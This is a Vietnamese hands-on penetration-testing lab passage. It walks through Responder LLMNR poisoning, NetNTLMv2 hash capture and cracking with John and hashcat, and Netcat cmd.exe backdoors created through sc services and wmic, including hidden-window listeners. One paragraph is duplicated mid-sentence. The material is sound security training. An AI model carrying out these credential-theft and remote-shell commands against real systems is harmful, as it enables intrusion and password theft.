Responder sẽ cung cấp một đầu ra khá chi tiết. Bạn sẽ thấy một vài cảnh báo, mà bạn có thể bỏ qua một cách an toàn. Ví dụ, nó sẽ cho biết không thể bắt đầu lắng nghe trên một số cổng nhất định, vì chúng đã được sử dụng bởi các dịch vụ/ứng dụng khác trên máy Linux của bạn. Bạn có thể bỏ qua các lỗi; chúng ta không cần tất cả các mô-đun phải hoạt động. Bạn sẽ thấy một vài điều đáng chú ý:

- `Poisoners`: Bạn sẽ thấy các kỹ thuật đầu độc được sử dụng, bao gồm LLMNR, NBNS (NBT-NS) và DNS/MDNS.

- `Servers`: Chúng ta sẽ nhắm mục tiêu vào các máy chủ SMB (Doanh nghiệp vừa và nhỏ) cho cuộc tấn công này.

- `Interface`: Chúng tôi đã chỉ định eth0giao diện với-I

Sau khi in ra các cảnh báo khác nhau, Responder nên kết thúc bằng cách in ra "Listening for events...".

### 2. Chuyển sang máy tính chạy hệ điều hành Windows.

Bây giờ chúng ta hãy chuyển sang máy tính Windows "nạn nhân" của chúng ta.

Đăng xuất khỏi máy ảo Windows của bạn. Nhấp vào biểu tượng Windows ở góc dưới bên trái, sau đó nhấp vào biểu tượng người dùng (hình đầu và vai nhỏ). Sau đó nhấp vào 'Đăng xuất'.

Sau đó, hãy đăng nhập bằng thông tin đăng nhập bên dưới:

- Tên người dùng: `clark`.

- Mật khẩu: `Qwerty12`.

> Đổi mật khẩu lại thành 1234@abcd.

### 3. Mở cửa sổ Explorer.

Hãy mở một cửa sổ Explorer và thử thiết lập kết nối SMB đến một hệ thống không tồn tại. Hãy nhớ rằng, thao tác này sẽ kích hoạt yêu cầu LLMNR, vì máy Windows sẽ cố gắng phân giải tên máy chủ bằng yêu cầu LLMNR đa hướng. Responder sẽ phản hồi lại những loại yêu cầu này!

Ví dụ, chúng ta có thể thử mở một phiên SMB tới `\\WINDOWS01`. Bạn có thể làm điều này bằng cách mở cửa sổ Explorer, nhập `\\WINDOWS01` vào thanh địa chỉ và nhấn Enter; kết nối sẽ bị treo trong vài giây, sau đó sẽ trả về "Truy cập bị từ chối" và yêu cầu thông tin đăng nhập.

Điều quan trọng cần lưu ý là, tại thời điểm này, máy tính Windows của bạn đã cố gắng đăng nhập bằng thông tin đăng nhập của phiên Windows hiện tại. Do đó, Responder lẽ ra đã có thể nhận được phản hồi xác thực NTLMv2...



Sau khi Windows xác thực một số lần, bạn sẽ thấy hộp thoại này. Bạn chỉ cần đóng nó lại; chúng ta đã lấy được các mã băm rồi!



### 4. Xem lại mã băm thử thách/phản hồi NTLMv2

Hãy quay lại máy ảo Slingshot Linux để chúng ta có thể quan sát xem nỗ lực của mình có thành công hay không!

Trong cửa sổ nơi Responder đang chạy, bạn sẽ thấy rằng một phản hồi thử thách NTLMv2 đã được thu thập (xem ảnh chụp màn hình để biết ví dụ về giao diện đó). Nếu bạn không thấy ngay lập tức, bạn có thể cần cuộn lên trong cửa sổ. Mục nhập sẽ hiển thị rõ ràng mã băm dành cho clarkvà được thu thập từ máy tính Windows của bạn.



Sau khi thấy mã băm, bạn có thể thoát Responder bằng cách nhấn phím CTRL+C.

Bạn sẽ thấy rằng Responder đã làm sai lệch phản hồi cho `windows01.local` và `windows01` cả mã băm đã thu được. Bạn cũng sẽ thấy thông báo rằng Responder đã nhận được một mã băm khác từ cùng một người dùng, nhưng không hiển thị nó trên màn hình.

### 5. Sử dụng John The Ripper để giải mã băm thu được.

Điều quan trọng cần lưu ý là sự khác biệt giữa hàm băm NTLM và hàm băm NetNTLMv2:

Mã băm NTLM (hoặc mã băm NT) là mã băm MD4 không thêm muối của mật khẩu, được Windows sử dụng để lưu trữ mật khẩu trong tệp SAM (người dùng cục bộ) hoặc trong tệp NTDS.dit (người dùng miền). Loại mã băm này có thể được sử dụng trong cuộc tấn công Pass-the-Hash !

Mã băm NetNTLMv2 là một dạng phản hồi-thử thách có thể được sử dụng để thực hiện tấn công vét cạn ngoại tuyến. Loại mã băm này không thể được sử dụng trong tấn công Pass-the-Hash, nhưng có khả năng được sử dụng trong tấn công SMB Relaying !

Theo mặc định, các mã băm được Responder thu thập sẽ được lưu vào một tệp .txt /opt/responder/logsvới tên tương tự như tên tệp bên dưới. Do đó, tên tệp thực tế của bạn sẽ phụ thuộc vào địa chỉ IP của máy tính Windows của bạn.

Chúng ta cần chỉ định loại hàm băm mà John nhắm đến (NetNTLMv2), điều này có thể thực hiện bằng cách sử dụng cờ `Điều quan trọng cần lưu ý là sự khác biệt giữa hàm băm NTLM và hàm băm NetNTLMv2:

Mã băm NTLM (hoặc mã băm NT) là mã băm MD4 không thêm muối của mật khẩu, được Windows sử dụng để lưu trữ mật khẩu trong tệp SAM (người dùng cục bộ) hoặc trong tệp NTDS.dit (người dùng miền). Loại mã băm này có thể được sử dụng trong cuộc tấn công Pass-the-Hash !

Mã băm NetNTLMv2 là một dạng phản hồi-thử thách có thể được sử dụng để thực hiện tấn công vét cạn ngoại tuyến. Loại mã băm này không thể được sử dụng trong tấn công Pass-the-Hash, nhưng có khả năng được sử dụng trong tấn công SMB Relaying !

Theo mặc định, các mã băm được Responder thu thập sẽ được lưu vào một tệp .txt `/opt/responder/logs` với tên tương tự như tên tệp bên dưới. Do đó, tên tệp thực tế của bạn sẽ phụ thuộc vào địa chỉ IP của máy tính Windows của bạn.

Chúng ta cần chỉ định loại hàm băm mà John nhắm đến (NetNTLMv2), điều này có thể thực hiện bằng cách sử dụng cờ `--format`:

```bash
john --format=netntlmv2 /opt/responder/logs/SMB-NTLMv2-SSP-*
```



John sẽ bắt đầu tấn công vét cạn các mã băm được cung cấp ngay lập tức. Trong trường hợp cụ thể của chúng ta, việc bẻ khóa sẽ cực kỳ nhanh! Điều này là do John trước tiên thử một số mật khẩu "dễ đoán" (chẳng hạn như tên người dùng). Vì tài khoản người dùng clark của chúng ta sử dụng "Qwerty12" làm mật khẩu, chúng ta sẽ thấy mật khẩu khá nhanh ("Qwerty12" là một phần của từ điển mà chúng ta đang sử dụng).

Một điều quan trọng cần lưu ý là John không "giải mã lại" các mã băm. Nếu nó đã giải mã một mã băm nào đó, nó sẽ chỉ thông báo cho bạn rằng nó không tải bất kỳ mã băm nào khi cố gắng giải mã chúng lần nữa.

Để xem các mã băm đã được giải mã, chúng ta có thể sử dụng hàm `show` của John:

```bash
john --show /opt/responder/logs/SMB-NTLMv2-SSP-*.txt
```

Lệnh này tìm kiếm john.potcác mã băm bên trong tệp `SMBv2-NTLMv2-SSP-*` để có thể in ra mật khẩu liên kết với người dùng.




### 6. Đăng xuất khỏi tài khoản clark, đăng nhập lại với tên sec560

Đăng xuất khỏi máy tính Windows của bạn (clark). Sau đó, đăng nhập lại với tư cách người dùng khác sec560.

Chúc mừng! Bạn đã giải mã thành công thử thách phản hồi NetNTLMv2!

### 7. Thu thập mã băm bằng phần mềm bắt gói tin (sniffer)

Đối với bài thực hành này, hãy chuyển sang máy Linux của bạn và gọi lệnh `smbclient` để truy cập máy ảo Windows qua SMB. Chỉ cần nhập tên người dùng và mật khẩu giả để chúng ta không thể xác thực thành công. Trong khi quá trình trao đổi diễn ra, chúng ta sẽ chạy `tcpdump` trên Linux để theo dõi gói tin, sau đó chúng ta có thể bẻ khóa nó.

Phòng thí nghiệm này mô phỏng một số kịch bản khác nhau, một vài trong số đó được nêu dưới đây:

- 1: Kẻ tấn công có vị thế "kẻ trung gian" và chiếm đoạt thông tin xác thực.

- 2: Kẻ tấn công chạy một dịch vụ và chờ đợi trình quét lỗ hổng kết nối với dịch vụ đó.

- 3: Kẻ tấn công có thể khiến người dùng cố gắng gắn kết một thư mục chia sẻ trên máy tính do kẻ tấn công kiểm soát.

Mở máy ảo Slingshot Linux của bạn. Tại đây, trước tiên chúng ta sẽ chạy `tcpdump` trình bắt gói tin để thu thập các gói tin liên quan đến quá trình xác thực. Bạn cần hai cửa sổ terminal: một để `tcpdump` bắt gói tin và một để smbclientthực hiện xác thực với Windows. Khởi chạy hai cửa sổ terminal.

Trong một cửa sổ terminal, hãy chạy lệnh `tcpdump` sau:

```bash
sudo tcpdump -nv -w /tmp/winauth.pcap port 445
```

Tùy chọn `-n` này cho phép hiển thị các cổng và địa chỉ IP dạng số thay vì tên cổng và tên máy chủ, trong khi tùy vchọn khác `tcpdump` in ra số lượng gói tin đã nhận được cho đến nay. Tùy chọn `-w` này khiến `tcpdump` chương trình ghi các gói tin vào một tệp ghi lại gói tin. Chúng ta sẽ chỉ tập trung vào các gói tin liên quan đến cổng 445.

Trong khi `tcpdump` chương trình đang chạy, hãy mở một cửa sổ dòng lệnh khác `smbclient` và thực hiện xác thực với máy ảo Windows của bạn.

Để mô phỏng quá trình xác thực người dùng, chúng ta sẽ xác thực vào máy ảo Windows với tư cách người dùng `clark` có mật khẩu `Qwerty12`. Trong cửa sổ terminal Linux khác, hãy nhập:

```bash
 smbclient //10.130.10.25/c$ -U clark 1234@abcd
```

Thông tin đăng nhập này không hợp lệ cho hệ thống này. Tuy nhiên, nếu chúng ta có thể khôi phục thông tin đăng nhập này, chúng ta có thể sử dụng nó trên các hệ thống khác mà người dùng có quyền truy cập. Tất nhiên, nếu thông tin đăng nhập hoạt động bình thường, chúng ta có thể sử dụng nó ngay lập tức.

Khi bạn nhấn phím `Enter` trong Linux để chạy `smbclient` lệnh, bạn sẽ thấy một biểu tượng `LOGON_FAILURE`. Quan trọng hơn, `tcpdump` trình bắt gói tin của bạn trong cửa sổ khác sẽ hiển thị rằng bạn đã bắt được một số gói tin. Bạn sẽ thấy nó chỉ ra rằng nó có `Got XX gói tin`, trong đó XX sẽ là 11 hoặc nhiều hơn.

> Bạn phải thoát khỏi tcpdump. Bạn phải nhấn phím `CTRL-C` trong `tcpdump` cửa sổ terminal, nếu không tcpdumpcác gói dữ liệu sẽ không được ghi vào tệp ghi lại. Chúng ta đã thu thập được các gói dữ liệu.


## 8: Trích xuất mã băm từ tệp Pcap

Chúng tôi sẽ sử dụng PCredzcông cụ này để trích xuất các mã băm mật khẩu từ tệp pcap. Công cụ này có thể trích xuất "Số thẻ tín dụng, NTLM (DCE-RPC, HTTP, SQL, LDAP, v.v.), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, v.v. từ tệp pcap hoặc từ giao diện trực tiếp."

Công cụ PCredz có những quy định cụ thể về vị trí và cách thức chạy. Chúng ta cần chạy nó từ thư mục chứa tệp Pcredzthực thi.

> Lưu ý: Tệp thực thi có tên là Pcredznhưng công cụ được gọi là PCredz(lưu ý sự thay đổi chữ hoa chữ thường của chữ "C"). Từ giờ trở đi, chúng ta sẽ gọi nó bằng tên tệp thực thi, Pcredz.

Giờ thì hãy chạy Pcredz và trích xuất mã băm!

```bash
sudo Pcredz -vf /tmp/winauth.pcap
```



Chúng ta thấy mã băm trên màn hình, và lệnh trước đó tạo ra một tệp có tên `/opt/pcredz/CredentialDump-Session.log` chứa tất cả các kết quả đầu ra ở trên. Ngoài ra, công cụ này còn tạo các tệp trong thư mục `/opt/pcredz/logs/` có tên tương ứng với các loại mã băm tìm thấy.

Hãy cùng xem tệp chứa các mã băm trong `logs` thư mục đó.

```bash
ls /opt/pcredz/logs/
cat /opt/pcredz/logs/NTLMv2.txt
```



Chúng ta đã có mã băm ở định dạng phù hợp để có thể sử dụng nó `john` để giải mã.

```bash
john /opt/pcredz/logs/NTLMv2.txt
```



John đã tìm thấy mật khẩu trong danh sách mật khẩu của nó tại địa chỉ `/usr/local/share/john/password.lst`.

Ngoài ra, chúng ta cũng có thể sử dụng hashcat để giải mã băm NETNTLMv2 này:

```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt
```

Sau đó, hãy xem mật khẩu đã bị bẻ khóa bằng cách sử dụng lệnh sau:

```bash
hashcat -m 5600 --show --outfile-format 2 /opt/pcredz/logs/NTLMv2.txt
```



Các lựa chọn là:

- `-m 5600`: Chế độ NetNTLMv2.

- `--show`: Hiển thị kết quả.

- `--outfile-format 2`: Định dạng đầu ra.

- `hash.txt`: Tệp chứa các mã băm.

## Phần kết luận

Trong bài thực hành này, bạn đã tìm hiểu cách thực hiện một cuộc tấn công cấp độ mạng bằng Responder để thu được các hàm băm NTLMv2 và cách chúng ta có thể sử dụng John The Ripper để bẻ khóa các hàm băm này. Kỹ thuật này rất hữu ích cho các chuyên gia kiểm thử xâm nhập để phân biệt mật khẩu và sử dụng chúng để có được quyền truy cập sâu hơn vào môi trường mục tiêu.

Chúng ta cũng đã thấy được tính linh hoạt của việc nghe lén gói tin. Chúng ta đã sử dụng tcpdump để thu thập thông tin xác thực, trích xuất mã băm và giải mã phản hồi/thử thách NTLMv2, cũng như giải mã các mã băm đó.

# Lab 4.1. Chạy các lệnh với SC và WMIC

## Mục tiêu

- Sử dụng lệnh `sc` để tạo một dịch vụ từ trình lắng nghe cửa hậu Netcat.

- Để điều khiển dịch vụ nghe lén cửa sau bằng lệnh `sc`.

- Để thiết lập khả năng giám sát cổng bằng lệnh `netstat` Windows, hãy sử dụng lệnh sau:

- Dùng `wmic` để tạo trình lắng nghe cửa hậu Netcat

- Để phân tích cách `wmic` giám sát các tiến trình bằng cú pháp `/every:1` của nó.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Windows 10.

## Hướng dẫn thực hành từng bước

Hãy cùng thực hiện một bài thực hành với một số phương pháp chúng ta đã học để chạy một lệnh trên máy tính Windows mục tiêu. Cụ thể, chúng ta sẽ sử dụng các kỹ thuật `sc` và `wmic`. Trong bài thực hành này, chúng ta sẽ làm cho Windows chạy một lệnh gọi trình lắng nghe Netcat, cung cấp quyền truy cập shell lệnh tương tác từ xa vào máy nạn nhân. Lệnh mà chúng ta sẽ chạy trên máy tính Windows của mình với quyền SYSTEM cục bộ là:

```bash
nc.exe -l -p 2222 -e cmd.exe
```

Lệnh này yêu cầu Netcat (`nc.exe`) chạy như một trình lắng nghe (`-l`) trên cổng cục bộ (`-p`) 2222, và khi có ai đó kết nối, nó sẽ thực thi (`-e`) một `cmd.exeshell`. Kẻ tấn công sau đó có thể kết nối với máy trên cổng TCP 2222 và có quyền truy cập shell lệnh tương tác từ xa. Trong bài thực hành này, chúng ta sẽ sử dụng các kỹ thuật này cục bộ để thực hành. Nhưng hãy nhớ rằng mỗi kỹ thuật đều có thể được sử dụng từ xa.

Hãy cùng nhìn lại và xem xét mục tiêu chúng ta đang muốn tìm hiểu ở đây. Ý tưởng là, nếu người kiểm thử có ID người dùng quản trị và mật khẩu, cũng như quyền truy cập mạng SMB vào máy mục tiêu, họ có thể sử dụng lệnh `sc` hoặc `wmic` trên máy của kẻ tấn công để buộc máy mục tiêu chạy bất kỳ lệnh nào mà kẻ tấn công lựa chọn. Chúng ta sẽ sử dụng lệnh `sc` và `wmic` để buộc máy mục tiêu thực thi một shell lệnh mà sau đó chúng ta có thể truy cập qua mạng để chạy nhiều lệnh riêng lẻ một cách trực tiếp và tương tác.



### 1: Thiết lập

Trong thư mục `C:\Tools`, có một tệp tin `ncexer.bat` sẽ tạo ra hai cửa sổ terminal với màu sắc khác nhau cho bài thực hành này. Nếu bạn bị khiếm khuyết về thị giác màu, hãy sử dụng tiêu đề của các cửa sổ làm hướng dẫn.

VUI LÒNG CHẠY TỆP TIN `ncexer.bat` VỚI QUYỀN QUẢN TRỊ. Trên Windows, bạn có thể thực hiện bằng cách nhấp chuột phải vào tệp tin và chọn "Chạy với quyền quản trị".



Tệp này sẽ mở ra hai cửa sổ `cmd.exe` với màu sắc và tiêu đề khác nhau. Màn hình màu vàng sẽ là Kẻ tấn công. Màn hình màu xám sẽ là Nạn nhân. Bây giờ hãy thực hành kích hoạt một backdoor Netcat đang lắng nghe trên cổng TCP 2222 và cấp quyền truy cập shell lệnh. Trên màn hình Nạn nhân (màu xám), hãy chạy lệnh sau:

```bash
# > Lệnh của nạn nhân (màu xám)
C:\Tools\nc.exe -nvlp 2222 -e cmd.exe
```

Bây giờ, trong cửa sổ Kẻ tấn công (màu vàng), hãy sử dụng ứng dụng Netcat để kết nối với cửa hậu đó:

```bash
# > Lệnh tấn công (màu vàng)
C:\Tools\nc.exe -nv 127.0.0.1 2222
```



Bạn cần có quyền truy cập vào giao diện dòng lệnh. Hãy nhập một số lệnh, chẳng hạn như `hostname` và `dir`.

Kết nối này thể hiện khái niệm về những gì chúng ta đang cố gắng đạt được: truy cập shell cửa sau vào máy tính Windows mục tiêu. Nhưng bạn cần thoát khỏi shell này để tiếp tục bài thực hành. Vui lòng ngắt cả hai đầu kết nối bằng cách nhấn `CTRL-C` vào màn hình màu vàng hoặc màu xám. Điều đó sẽ đóng cửa sau để chúng ta có thể tiếp tục và tạo lại nó bằng `sc` lệnh và `wmic` lệnh khác.



### 2: Tạo một dịch vụ

Sau khi dừng trình lắng nghe Netcat trên cổng TCP 2222 bằng tổ hợp phím `CTRL+C`, chúng ta hãy sử dụng `sc` lệnh để biến Netcat thành một dịch vụ. Trong cửa sổ Attacker, hãy xác định tên máy chủ của bạn bằng cách chạy lệnh:

```bash
# Lệnh tấn công (màu vàng)
hostname
```



Bây giờ hãy sử dụng `sc` lệnh để tạo một dịch vụ Netcat, mà chúng ta sẽ đặt tên là `ncservice`:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student create ncservice binpath= "c:\tools\nc.exe -l -p 2222 -e cmd.exe"
```

> LƯU Ý RẰNG PHẢI CÓ KHOẢNG TRỐNG GIỮA DẤU BẰNG VÀ DẤU NGOẶC KÉP. NGOÀI RA, KHÔNG ĐƯỢC CÓ KHOẢNG TRỐNG GIỮA BINPATH VÀ DẤU BẰNG.



Hơn nữa, đừng sử dụng địa chỉ IP ở đây thay cho tên máy chủ (Sec560Student) vì một số máy tính Windows gặp sự cố với localhost, 127.0.0.1 hoặc địa chỉ IP cục bộ khi sử dụng làm tên cho lệnh này. Thay vào đó, chỉ cần sử dụng tên máy chủ của bạn.

> Chúng tôi sử dụng tên máy chủ ở đây để mô phỏng việc chạy các lệnh trên một máy tính từ xa. Chúng ta có thể làm điều này với một trong các máy tính trong phòng thí nghiệm, nhưng sẽ có rất nhiều xung đột về cổng và tên dịch vụ. Cách này giúp bạn dễ dàng hơn và đạt được kết quả hoàn toàn giống nhau.

Từ xa, lệnh này hoạt động tốt chỉ với địa chỉ IP của máy nạn nhân. Nếu dịch vụ được tạo thành công, máy của bạn sẽ hiển thị trạng thái `Create Service SUCCESS`.

Sau đó, bạn có thể truy vấn trạng thái dịch vụ bằng lệnh này:

```bash
sc \\Sec560Student query ncservice
```



Tiếp theo, chúng ta sẽ khởi động nó và thử kết nối với nó.

Giờ chúng ta đã tạo xong `ncservice`, hãy thiết lập một trình giám sát nhỏ cho dịch vụ trong cửa sổ Nạn nhân. Bạn có thể làm điều này bằng cách giám sát cổng TCP 2222 để xem nó có bắt đầu lắng nghe hay không. Chạy lệnh `netstat` như sau:

```bash
# > Lệnh của nạn nhân (màu xám)
netstat -nao 1 | find ":2222"
```

Lệnh này yêu cầu netstatliệt kê, dưới dạng số (`-n`), tất cả các cổng TCP và UDP (`-a`) đang được sử dụng và số ID tiến trình sử dụng mỗi cổng (`-o`), chạy mỗi giây (`1`). Lưu ý: phải có một khoảng trắng giữa (`-nao` và `1`). Sau đó, chúng ta sẽ quét đầu ra của `netstat` để tìm chuỗi "2222", điều này cho biết cổng đang được sử dụng. Cổng không nên được sử dụng khi chúng ta chạy lệnh `netstat` này vì chúng ta đã tắt trình lắng nghe Netcat thử nghiệm trước đó. `netstat` Lệnh sẽ trông như bị treo, nhưng thực ra nó đang chờ để hiển thị cho bạn một cái gì đó! Nó giống như một chiếc đồng hồ trong Linux.

Nếu cổng hiện đang được sử dụng, hãy tắt tiến trình liên quan bằng Trình quản lý tác vụ hoặc lệnh `taskkilll` như sau:

```bash
# Lệnh của nạn nhân (màu xám)
taskkill /PID [process_ID]
```

Giờ đây, sau khi đã thiết lập màn hình giám sát ở chế độ Nạn nhân, chúng ta hãy sử dụng màn hình tấn công để khởi động dịch vụ:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student start ncservice
```



Trong cửa sổ Nạn nhân (màu xám), lệnh netstat của bạn sẽ bắt đầu hiển thị kết quả, cho biết cổng TCP 2222 đang LẮNG NGHE. Tuy nhiên, sau khoảng 30 giây, lệnh `sc` kết thúc và hiển thị thông báo lỗi "Dịch vụ không phản hồi yêu cầu khởi động hoặc điều khiển kịp thời". Nhưng thực tế là chúng ta đã có một máy chủ lắng nghe trong 30 giây.

Bạn có thể thấy rằng cổng của bạn dường như vẫn đang mở và lắng nghe ngay cả sau khi Windows tắt dịch vụ. Đó là một trình lắng nghe cổng ảo. ID tiến trình được chỉ ra bởi đầu ra của netstat có thể không còn chạy trên Windows nữa, vì vậy không ai có thể kết nối với cổng đó, mặc dù đầu ra của netstat vẫn hiển thị `LISTENING`. Sau vài giây, Windows nhận ra điều này và giải phóng cổng.

Dừng `netstat` lệnh bằng cách nhấn `CTRL-C` vào cửa sổ Nạn nhân (màu xám).

Sau đó xóa tệp gốc `ncservice` để chúng ta có thể thay thế nó bằng một tệp khác hoạt động bền bỉ hơn, lắng nghe lâu hơn thời gian chờ 30 giây:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student delete ncservice
```



### 3: Dịch vụ tốt hơn

Khởi động lại lệnh của bạn `netstat` trong cửa sổ Nạn nhân để theo dõi trình lắng nghe của chúng tôi:

```bash
# Lệnh của nạn nhân (màu xám)
netstat -nao 1 | find ":2222"
```

Tạo một dịch vụ Netcat tốt hơn, được gọi là ncservice2, dịch vụ này tạo ra một trình lắng nghe Netcat tồn tại trong hơn 30 giây bằng cách gọi `cmd.exe` một dịch vụ khác, dịch vụ này lại chạy Netcat bằng cách sử dụng /ktùy chọn:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student create ncservice2 binpath= "cmd.exe /k c:\tools\nc.exe -l -p 2222 -e cmd.exe"
```

Cuối cùng, hãy khởi động dịch vụ đó:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student start ncservice2
```



Bây giờ, trong cửa sổ Kẻ tấn công (màu vàng), hãy kết nối với trình lắng nghe bằng ứng dụng khách Netcat:

```bash
# Lệnh tấn công (màu vàng)
c:\tools\nc.exe 127.0.0.1 2222
```



Lưu ý rằng nếu bạn nhấn phím `CTRL-C` trong ứng dụng Netcat, kết nối sẽ bị ngắt, đồng thời trình lắng nghe Netcat cũng dừng lại. Điều này là do chúng ta đã gọi trình lắng nghe Netcat với tùy chọn `-l`, tùy chọn này tạo ra một trình lắng nghe chỉ lắng nghe một kết nối và sau đó dừng hoạt động khi kết nối đó bị ngắt. Nếu chúng ta gọi nó với tùy chọn `-L`, phiên bản Netcat dành cho Windows sẽ lắng nghe lâu hơn, tạo ra một trình lắng nghe liên tục cho phép nhiều kết nối nối tiếp nhau. Với tùy chọn `-L`, Netcat tiếp tục lắng nghe giữa các kết nối. Trong kiểm thử xâm nhập, đôi khi chúng ta muốn một trình lắng nghe chỉ chạy cho một kết nối (`-l`), và đôi khi chúng ta muốn một trình lắng nghe liên tục (`-L`). Phiên bản Netcat dành cho Windows cung cấp cho chúng ta tùy chọn để chọn một trong hai.

Để hoàn thành phần này của bài thực hành, hãy đảm bảo bạn đã tắt chương trình Netcat bằng cách nhấn `CTRL-C` vào cửa sổ Kẻ tấn công (màu vàng). Đồng thời, dừng `netstat` lệnh của bạn bằng cách nhấn `CTRL-C` vào cửa sổ Nạn nhân (màu xám).

Và nhớ xóa tệp của bạn `ncservice2` bằng lệnh này:

```bash
# Lệnh tấn công (màu vàng)
sc \\Sec560Student delete ncservice2
```

Hãy kiểm tra xem cổng 2222 có còn được sử dụng hay không bằng cách chạy lệnh sau:

```bash
# Lệnh của nạn nhân (màu xám)
netstat -nao | find ":2222"
```

Lưu ý rằng chúng ta không sử dụng lệnh `1` này để chạy `netstat` mỗi giây. Chúng ta chỉ muốn nó chạy một lần để xác minh rằng cổng không còn được sử dụng nữa.



### 4: WMIC

Tiếp theo, chúng ta sẽ khởi chạy một trình lắng nghe Netcat bằng cách sử dụng `wmic` thay vì `sc`. Như bạn sẽ thấy, việc này dễ thực hiện hơn với `wmic` và có dung lượng nhỏ hơn trên máy đích. (Tức là, chúng ta không cần phải định nghĩa một dịch vụ mà sau này sẽ xóa đi.) Tuy nhiên, tiến trình mà chúng ta gọi sẽ không có quyền SYSTEM cục bộ. Thay vào đó, tiến trình sẽ chạy với quyền quản trị viên.

Hãy bắt đầu bằng cách chạy một trình giám sát trong cửa sổ Nạn nhân (màu xám). Chúng ta có thể sử dụng trình giám sát tìm kiếm một cổng cụ thể bằng lệnh port `netstat`, như trước đây. Nhưng thay vào đó, để khác biệt và mở rộng kỹ năng, hãy sử dụng một `wmic` lệnh để giám sát sự khởi đầu của một tiến trình có tên là `nc.exe`. Chúng ta có thể thực hiện điều này bằng lệnh sau:

```bash
# Lệnh của nạn nhân (màu xám)
wmic process where name="nc.exe" list brief /every:1
```

Lệnh này được gọi `wmic` để xem xét các tiến trình có tên là `nc.exe`, liệt kê một dòng đầu ra (ngắn gọn) với thông tin quan trọng cho mỗi tiến trình có tên đó. Với /every:1cú pháp này, chúng ta có thể sử dụng `wmic` để chạy bất kỳ lệnh nào đọc thông tin từ máy của chúng ta mỗi giây. Vì không có tiến trình nào được gọi `nc.exe` trên máy của chúng ta, hệ thống sẽ thông báo: `No instance(s) Available`.Nếu bạn thấy một tệp thực thi Netcat, hãy kết thúc nó bằng `taskkill` lệnh .



Mặc dù wmiclệnh vẫn tiếp tục chạy mỗi giây, hãy chuyển sang cửa sổ Kẻ tấn công (màu vàng). Chúng ta hãy sử dụng lệnh này wmicđể khởi tạo trình lắng nghe Netcat trên máy mục tiêu, như sau:

```bash
# Lệnh tấn công (màu vàng)
wmic /node:Sec560Student process call create "c:\tools\nc.exe -l -p 4444 -e cmd.exe"
```



Theo mặc định, `wmic` lệnh này thực hiện trên máy cục bộ. Để lệnh này hoạt động từ xa, chúng ta cần thêm cú pháp `/node:Sec560Student /user:[AdminUser] /password: [password]` sau `wmic` và trước `process` lệnh này. Hiện tại, chỉ cần chạy lệnh này trên máy cục bộ là được.

Sau đó hãy nhìn vào cửa sổ hiển thị thông tin của nạn nhân. Bạn có thấy tiến trình Netcat đang chạy trong kết quả của `wmic /every:1` lệnh không?



Trong cửa sổ tấn công của bạn, hãy kết nối với trình lắng nghe Netcat bằng lệnh sau:

```bash
# Lệnh tấn công (màu vàng)
c:\tools\nc.exe 127.0.0.1 4444
```

Nhập một số lệnh, chẳng hạn như `hostname`, `whoami`, `ipconfig`, và `dir`. Bạn sẽ thấy quyền hạn của mình là người dùng quản trị đã chạy lệnh `wmic`. Khi hoàn tất, nhấn `CTRL-C` cả hai phím trong cửa sổ Kẻ tấn công (màu vàng) và Nạn nhân (màu xám) để dừng máy khách Netcat (điều này cũng sẽ tắt `-l` trình lắng nghe Netcat) và `wmic` vòng lặp giám sát.



Bạn có để ý thấy cửa sổ dòng lệnh hiện lên khi bạn gọi Netcat bằng lệnh nào không wmic? Có thể nó hiển thị màn hình trống với tiêu đề là `c:\tools\nc.exe`.



Cửa sổ dòng lệnh này là tác dụng phụ của cách chúng ta gọi Netcat. Nếu Netcat được gọi theo cách có thể tương tác với phiên làm việc trên máy tính để bàn của người dùng, nó sẽ hiển thị một cửa sổ dòng lệnh, trừ khi chúng ta gọi Netcat với `-d` tùy chọn `--disabled`. `-d` Tùy chọn này cho Netcat biết rằng nó sẽ chạy độc lập với phiên làm việc hiện tại của người dùng. Là một chuyên gia kiểm thử xâm nhập, chúng ta thường muốn tránh các cửa sổ dòng lệnh xuất hiện trên màn hình của các máy mục tiêu khi chúng ta đang kiểm thử chúng, vì vậy cách an toàn nhất thường là gọi Netcat với tùy chọn `--disabled` `-d` trên Windows. Các phiên bản Netcat dành cho Linux và UNIX không có tác dụng phụ này. Trên thực tế, không có `-d` tùy chọn `--disabled` nào trong Netcat dành cho Linux/UNIX.

Hãy thử gọi `Netcat wmic` như trước, nhưng lần này với `-d` tùy chọn:

```bash
# Lệnh tấn công (màu vàng)
wmic /node:Sec560Student process call create "c:\tools\nc.exe -dlp 4444 -e cmd.exe"
```

Giờ bạn sẽ không còn thấy cửa sổ dòng lệnh nữa. (Thực tế, nó có thể nhấp nháy nhanh trên màn hình rồi biến mất, tùy thuộc vào hiệu năng hệ thống của bạn.)

```bash
wmic /node:Sec560Student process where name="nc.exe" delete
```

## Phần kết luận

Tóm lại, trong bài thực hành này, bạn đã thấy cách khiến các máy tính Windows mục tiêu chạy các lệnh do bạn lựa chọn. Hai kỹ thuật được đề cập, sử dụng scđể tạo và chạy một dịch vụ (qua đó mô phỏng psexecnhưng chỉ sử dụng các công cụ tích hợp sẵn) và chạy wmicđể khiến mục tiêu khởi động một tiến trình, đặc biệt hữu ích cho các chuyên gia kiểm thử xâm nhập vì chúng ứng dụng các tính năng tích hợp sẵn của Windows. Cuối bài thực hành này, hãy đảm bảo bạn tắt các trình lắng nghe Netcat, cũng như xóa các tệp ncservicevà ncservice2mà bạn đã tạo trong suốt bài thực hành.

# Lab 4.2. Impacket

## Mục tiêu

- Để làm quen với các mô-đun Impacket: wmiexec.py, smbexec.py, smbclient.py và lookupsid.py.

- Sử dụng Impacket với nhiều phương thức xác thực khác nhau.

- Sử dụng Impacket để tương tác hiệu quả với hệ thống từ xa.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Bạn có thể ping địa chỉ 10.130.10.10 từ máy ảo Slingshot Linux:

```bash
ping -c 4 10.130.10.25
```



## Hướng dẫn thực hành từng bước

